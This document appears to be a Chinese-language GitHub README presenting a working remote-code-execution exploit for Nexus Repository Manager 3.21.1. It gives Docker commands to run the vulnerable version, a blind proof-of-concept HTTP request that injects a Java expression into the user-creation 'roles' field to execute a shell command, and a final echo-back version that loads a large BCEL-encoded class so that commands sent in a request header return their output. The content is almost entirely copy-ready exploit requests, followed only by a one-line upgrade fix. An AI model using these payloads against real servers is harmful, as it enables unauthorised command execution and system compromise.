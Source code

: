 # Nexus_Repository_Manager3_Vulnerabilities
Nexus Repository Manager3 - 远程执行代码漏洞回显payload

**环境搭建**

使用`https://hub.docker.com/r/sonatype/nexus3/tags`,pull下漏洞版本的docker

```java
查看docker history
sudo docker history sonatype/nexus3:3.21.1 
查看docker history 完整命令
sudo docker history sonatype/nexus3:3.21.1 --no-trunc
拉取镜像
sudo docker pull sonatype/nexus3:3.21.1
启动
sudo docker run -it -d --name nexus -p 8081:8081 -p 5050:5050 --name nexus sonatype/nexus3:3.21.1
sudo docker exec --user root -it 739eeacbfe93 bash
```

**无回显poc**

```
POST /service/extdirect HTTP/1.1
Host: 34.92.64.191:8081
Content-Length: 350
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.01485219710140373
Content-Type: application/json
Accept: */*
Origin: http://34.92.64.191:8081
Referer: http://34.92.64.191:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: harbor-lang=zh-cn; grafana_session=5eab6ca0a546d0df32ab22b1d36dc996; NX-ANTI-CSRF-TOKEN=0.01485219710140373; NXSESSIONID=f6d08b8b-ec8a-45fd-8539-ea034a9f31b2; _ga=GA1.1.1917822484.1597226847; _gid=GA1.1.1059631663.1597226847
Connection: close

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}
```

![无回显](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f95c1991-f434-4d56-9535-7d1ba315bdda/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200813%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200813T144934Z&X-Amz-Expires=86400&X-Amz-Signature=94d1e42d1561c2f267bae68523cf1aaa8ab3ffe1bf575f6201bfe9ffdc664246&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/dbb918fd-444e-44e5-be88-5fa0c1121d83/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200813%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200813T145022Z&X-Amz-Expires=86400&X-Amz-Signature=ae4079a3fcb410780eab0406c97996bf7f767968286aa0f63e944ecadfb2742b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**回显poc**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a5a677bf-766b-435a-b2d2-cf07348add90/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200813%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200813T145331Z&X-Amz-Expires=86400&X-Amz-Signature=9f210ab9371d006dd293b6b2155e9ac43153b27aa657342dfde6d1932bb30772&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

选择JDK内置的`com.sun.org.apache.bcel.internal.util.ClassLoader`来动态加载我们的类

```
${''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$' + code).newInstance()
```

最终poc

```
POST /service/extdirect HTTP/1.1
Host: 192.168.233.130:8081
Content-Length: 4083
X-Requested-With: XMLHttpRequest
hu3sky_command: ls -al
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9332502931671067
Content-Type: application/json
Accept: */*
Origin: http://192.168.233.130:8081
Referer: http://192.168.233.130:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; NX-ANTI-CSRF-TOKEN=0.9332502931671067; NXSESSIONID=395d2b71-9ae5-4020-81b9-9062d9f8a1cc
Connection: close

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$7b$I$A$A$A$A$A$A$A$8dV$d9s$UE$Y$ff5$bb$9b$99L$s$d7$q$9b$a4$T$82$82$B6$Jl$Q9d$40E$$E$c2$n$89$60$40$c5$c9$a4C6$d9$cc$ac3$b3$n$u$de7$o$e2$N$de7$8a$fa$60$95$b5$a1$a4$b4$f4$85$H$ff$E_$f4$c9$X_$7c$b1$ca$w$v$f1$eb$d9$5d$b2$J$ab$b8$3b$d5$d3$fd$dd$df$d7$bf$af$7b$7e$fc$fb$9b$ef$A$ac$c0$X$g$9a$b1MC$E$bd$K$b6$ab$d8$a1$n$8e$9d$gv$e1v9$ecV$d1$t$v$fd$w$eeP$b0G$c5$5e$VwJ$95$BI$dd$a7b$bf$86y$b8K$c5$ddr$7d$8f$8au$K$O$c8$e9$bd$K$y$N$83$b0U$M$v$Q$w$86U$iT1$a2$m$a5bT$c5$98$82$b4$86q8rp5dp$9f$86$f9$f0$U$f8$K$C$N$8b$e1iX$84$ac$i$s$U$i$d2$d0$z$c3$ec$c6$a4$8a$c3$f2$7d$bf$86V$3c$m$87$pR$e6A$a9M$c3j$3c$a4$e0a$N$x$f1$88$82G$Z$w$d6$a5$9cTp$pC$q$d1$b9$87$n$ba$d1$j$S$M$b5$bd$vG$ec$c8$8e$P$K$af$df$gL$T$a5$ea$a0$Iv$L$3f$e3$3a$3e$ad$aa$fb$C$cb$k$dbneB$$$VF$c1c$94$Q$e5F$b9P$K$U$3c$F$ca$a0m$9e$b4E$sH$91$W$83$ba$ceN$87$ce$u$Ab$f5$b9Y$cf$W$5bR$d2z$e3f$7b$c4$3d$b0W$Mnt$9d$40L$G$c9Qk$c2$d2q$3d$d6$e8x$iO0$d4IBO$dar$O$f6$f4$8fx$c2$gb$d0$83p$d2$eb$daV$da$d7$f1$q$9e$a2$mt$3c$8dgt$3c$8b$a3$M$jR$t$vu$92$fd$d3$a2$j$rsJ$40$c7s8$c6$Q$L$f2i6$ec$ef$9d$f6$b4spT$d8$c1Z$86$ae$ffc$a9c$b3$Tx$87$c9$d4$84$95$ce$K$j$cf$e3$b8$8e$Xp$82a$85$ed$8e$t$7dw88dyb$5c8$81$eb$f9I$car$d4O$O$8d$3aI_x$Ti$R$q$7d$7f$3c9$5d$C$j$_$e2$r$w$9aW$u$ba$8e$97q$9cvf$3a$bc$8di$cb$a7$c4_$c1$ab3$ea$93$8fZ$c1k$3a$5e$c7I$86J$da$b9$bd$5e$w$Q$k$a5$X$8a$a5$dc$9e$5d$5e$ca$b9DU$3cq_V$f8$BmJ$b8$cb$85$85T$bc$95$S$94$o$r$f6$fb$C$d2$3d$c8P3$92$bd$ce$l$3b$7c$80$92$h$b7$i$da$Q0$b4$V$edo$c8$O$P$LO$Mmu2$d9$804$845$ae$e0$94$8e7$f0$a6$8e$b7$f0$b6$82wt$bc$8b$f7$e4$k$bf$cf$d04$5bow$c1$_$_2J$M$e5yR$f3$D$j$l$ca$C7$cf$8enC6$95$Oe$3e$c2$c7$ML$d3$f1$JN$e88$8dOu$7c$sAuF$O$eb$b0$a6X$92P$f7$SXu$7c$$Y$9cR$ebq$c4d$d6$ef$99$85$cf$Z$$$3d1$9c$a6$8a$f7lI$894$95$a1$da$cez$kmr$R$a7$8d$89$ce$de$d9$e8$rL$d5Qu7$J$3bM$90$Y$wh$$M$f4$ceNdm$a9$ee$MGd$a2$da$X$c1$cd$b6$z$7c$3f$V$827$9a$d8$t$7b8B$96$Z$W$r$$Grg9p$x$c3$ae$b7$c3$g$t$fd$85W$f0$l$C$8e4Tr$Q$ce$a9z$89r$C$K$J$e4M$ceL$be$60$93N$j$c2$Yu$zC$bc$5c$94$fb$u5$b2$d0$97$cd$I$cf$ce$fb$91X$dc$$$82$R$97$ca$b4$beL$98$fb$_$8b$a2$5c$e1$f2$W$c8$7f$cb$bf$f1$u$b4$943$e1$8eQ$e8k$ca$84V$e6t$u$5b$d3$fai$da$ee$ac$T$a4d$v$c2$de$w$$$e23$eaR$m$93bTL$K$9ba$f1$Vvb$97$e7$cam$9f$e9$a9$40$a4$ce$qO$r$fdB$60$zz$9b$d9H$b2$Q$89$b2$M$J$a3$86iV$be$e3B$aa$g$kyt$3bP$a5$acLF8$ff$D$b73zR$e2$tp$8b$87H$ec$90$3c$83f$e1$a0h$82$dc$c5$86$d3Y$7f$84$dev$da$95$XOmF$k$5c$e1$ed$d3$efY$b6$a0Km5$dd$b6$f2$X$a1$f3$87$$$M$gMZ$b5$d3$9b$8e$q$c4$ba$a6$c0$be$82$3c$9c$d6$d2X$R$S$p$a8$94$cd$8f9R42F$d4y$qp$e1$y$e6l3$oF4$87Xo7$8d$V$dd$5d9$u$db$N$f5$y$ww$y54$a2$9bQ$k$95$i$k$5dB$ac$efQE$8f$Z3t$920$xx$85Q$ze$U$ae$8421S$e5$eaw$ab$w$p$ab$b4$b8$W$af$fc$80$bd$c5$d5$b8$b6$dc$ac$e2U$e7$d9Q$ae$f0$w$b2a$ea$5c$3f$cf$8ep$3d$87$9a$ij$8d$ba$i$eaO$b1t$b86$Mi$ae$9aW$87$e6$aa$rM1kxM$u$da$40$8fY$cbk$8d$c6$c8$b7$88$e7$d0$c4kh$d2$9cC$8bYWJ$ad$xR$eby$bd$b4$c9$8b$8c$fa$C$e3$7b$b4$9aF$de_$9b$f4$d7$c0$hB$7f$Ny$7f$8d$bcq$da_$9c$c7$8d$b9E$D$8dE$cbM$a5$d4$a6$o$b5$b9$94$da$5c$a4$b6$f0$W$e9$a9$3dJ$8c$81$881$afOr$5bh$d5L$ab$ab$fa$c2x$e6$99$dc$b8$dal$3d$87$f9$Dg$b1$80$f3$i$ae$c9$a1c$K$L$cd$b6sX4p$O$8b$Hx$db$U$SS$e84$e7$f2$b99t$N$98$ed$e71$ff$i$ba$H$a6$b0$84$b7$e6$b0$94$b7$d3$60$qi$c8$a1$c7l$3d$7d$f1$tnH$c62NE$bdV$w$z$e7$94$eeuOh$ec$f4$df$b6D$c8$9c$Q$ng$d0Ec5$a2$a8$81$8eZ$d4$a3$8e$AVO$802$b0$Q$N$f4e$d5H$c8$89c$3d$9a$b0$958$3b$d1$82$U8$i$fa$d2$3a$846$i$c1$5c$i$p$3c$9d$c4Ux$HW$d3$9d3$l_c$B$7e$c45$f8$F$j$b8$80$c5LE$82$d5$a0$935$a3$8bu$a0$9b$99X$c2va$v$hF$92$j$c32v$C$d7$b2$8f$b0$9c$e5$b0$82$fd$80$95$ecg$acb$bfb5$fb$N$d7$b3$df$e9f$fa$D$z$ec$_$dc$88$h$u$d2$_$R$bb$88$fd$a8R$40$dfU7$vX$af$e0$e6pRui$c2$I$f3$X$d9$3e$b4$ff$a7LH$5e_$c2$cf$_7$5cF$a1gc$f8lR$b0$Z$94P$82V$X$a9$qW$8a$e1O$c4$b0$85B$8eR$T$ae$84$8a$5b$$u$eb$d6B$b7R$l$ad8$Nu$h$f5$dd$aa$af$K$adZA$b2$f9$adi$o$7d$d9$c2$b2$7d$x$a0$d0_E$V$b4$b0$M$K$e6lQp$ab4$bd5$dc$cb$db$fe$B$ea$ea$b4$ba$c3$L$A$A').newInstance()}"],"password":"admin"}],"type":"rpc","tid":33}
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/bd9d7539-7208-4efa-b374-e1a7c2a71d8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200813%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200813T145555Z&X-Amz-Expires=86400&X-Amz-Signature=e0667b5bf79ac7910e689ccce6c7e125762f96ace595c450dc82aac5697dd315&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**修复**

升级至最新版本或 Nexus Repository Manager 3.x OSS / Pro > 3.21.1
